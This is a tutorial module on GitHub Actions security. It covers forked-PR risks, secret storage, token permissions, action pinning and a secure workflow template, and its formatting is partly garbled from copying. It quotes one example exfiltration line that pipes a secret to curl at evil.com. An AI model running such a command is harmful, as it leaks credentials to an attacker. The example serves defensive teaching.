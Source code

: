 # 🔐 Module 03: Security Best Practices in GitHub Actions

> Protect your workflows from secret leaks, token abuse, fork PR attacks, and insecure dependencies.

---

## 🚨 1. NEVER Expose Secrets to Forked Pull Requests

### ⚠️ Common Mistake:

```yaml
on:
  pull_request_target:  # ❌ Dangerous
🔐 Module 03: Security Best Practices in GitHub Actions
🧠 Goal: Learn how to secure your CI/CD pipelines against common attacks, leaks, and misconfigurations — especially in public and collaborative environments.

🛡️ Why Security in CI/CD Matters
CI/CD runs your code and executes it — with permissions, secrets, tokens, and workflows. One wrong configuration could:

Leak secrets to attackers

Allow malicious PRs to run untrusted code

Over-permission tokens to do more than they should

Execute code from compromised actions

🔐 DevSecOps begins here — in your workflows.

📁 Create Module Folder
bash
Copy
Edit
mkdir Module-03-Security-Best-Practices
📄 Create README.md
bash
Copy
Edit
nano Module-03-Security-Best-Practices/README.md
Paste the full content below:

markdown
Copy
Edit
# 🔐 Module 03: Security Best Practices in GitHub Actions

> Protect your workflows from secret leaks, token abuse, fork PR attacks, and insecure dependencies.

---

## 🚨 1. NEVER Expose Secrets to Forked Pull Requests

### ⚠️ Common Mistake:

```yaml
on:
  pull_request_target:  # ❌ Dangerous
This lets external PRs run with your repo’s secrets!

Attackers can open a PR with code like echo $SUPER_SECRET | curl evil.com

✅ Safer Alternative
yaml
Copy
Edit
on:
  pull_request:
    branches: [main]  # ✅ Secrets are not exposed
And use this pattern to prevent forked PRs from running untrusted code:

yaml
Copy
Edit
if: github.event.pull_request.head.repo.full_name == github.repository
🔐 2. Use Secrets the Right Way
✅ Store tokens/keys here:
GitHub → Settings → Secrets → Actions

yaml
Copy
Edit
- name: Use API
  run: curl -H "Authorization: Bearer ${{ secrets.MY_TOKEN }}" https://api.example.com
Never hardcode secrets in YAML or scripts.
Secrets are encrypted and masked in logs by default.

🔒 3. Minimize GitHub Token Permissions
By default, the GITHUB_TOKEN used in workflows has broad permissions (write to PRs, issues, etc.).

✅ Set to read-only:
yaml
Copy
Edit
permissions:
  contents: read
Then explicitly add only what you need:

yaml
Copy
Edit
permissions:
  contents: read
  deployments: write
  issues: write
📌 Since April 2025, GitHub requires permission scopes for deployments.

📌 4. Always Pin Action Versions
Avoid:

yaml
Copy
Edit
uses: actions/checkout@v4  # ✅ GOOD
uses: some-action/some@main  # ❌ BAD
Why?

@main can change at any time → supply chain risk

You could unknowingly run malicious or broken code

🧪 5. Validate PRs Before Trusting Code
Use this in pull_request_target workflows ONLY IF:

You explicitly check if the user is trusted

You avoid running user code directly

You gate secrets behind manual review

📊 6. Monitor Workflow Logs and Alert on Failures
Use actions/github-script to create issues on failure

Send notifications (Slack, Discord, Email)

Use on: workflow_run to trigger diagnostics

🧱 7. Reusable, Secure Workflow Template
yaml
Copy
Edit
name: Secure CI

on:
  pull_request:

permissions:
  contents: read
  checks: write

jobs:
  secure-check:
    runs-on: ubuntu-latest
    steps:
      - uses: actions/checkout@v4
      - run: echo "Security scan here"
✅ Summary Best Practices
Practice	Why
✅ No pull_request_target with secrets	Prevents fork attacks
✅ Pin action versions	Prevents dependency hijack
✅ Use permissions: explicitly	Reduces token abuse
✅ Store secrets only in secrets.*	Never hardcoded
✅ Use if: to filter PR sources	Reduce risk from forks

🧠 Challenge Lab
Create a secure CI workflow with:

Secrets

Permission-limited token

Version-pinned actions

PR filter logic

Push a PR from a fork and confirm secrets are not exposed

Add a comment or label to untrusted PRs (via github-script)

yaml
Copy
Edit

---

## ✅ Commit and Push

```bash
git add .
git commit -m "Module 3: Security Best Practices in GitHub Actions"
git push origin main
